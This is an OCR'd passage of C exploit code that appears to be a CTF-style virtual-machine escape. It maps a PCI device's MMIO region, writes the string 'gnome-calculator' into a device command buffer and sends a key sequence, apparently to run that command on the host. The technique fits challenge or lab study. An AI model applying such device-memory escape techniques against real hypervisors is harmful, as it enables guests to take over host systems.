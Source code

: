 ```c
    exit(-1);
}

void mmio_write(uint64_t choice,uint64_t idx,uint64_t chr)
{
    uint64_t addr = ((choice & 0xf) << 20);
    uint64_t value = 0;
    addr += ((idx & 0xf) << 16);
    printf("the addr is 0x%lx\n",addr);
    if(choice == 6){
        //write command 
        value = chr;
        addr = idx;
        addr += (((choice & 0xf)) << 20);
    }
    *((uint64_t *)(mmio_mem+addr)) = value;
}

uint64_t mmio_read(uint64_t addr)
{
    return *((uint64_t*)(mmio_mem+addr));
}


int main()
{
// Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    //write command
    mmio_write(6,0,0x67);
    mmio_write(6,1,0x6e);
    mmio_write(6,2,0x6f);
    mmio_write(6,3,0x6d);
    mmio_write(6,4,0x65);
    mmio_write(6,5,0x2d);
    mmio_write(6,6,0x63);
    mmio_write(6,7,0x61);
    mmio_write(6,8,0x6c);
    mmio_write(6,9,0x63);
    mmio_write(6,10,0x75);
    mmio_write(6,11,0x6c);
    mmio_write(6,12,0x61);
    mmio_write(6,13,0x74);
    mmio_write(6,14,0x6f);
    mmio_write(6,15,0x72);
    //write to input
    //wwssadadBABA
    mmio_write(0,0,0);
    mmio_write(0,1,0);
    mmio_write(1,2,0);
    mmio_write(1,3,0);
    mmio_write(2,4,0);
    mmio_write(3,5,0);
    mmio_write(2,6,0);
```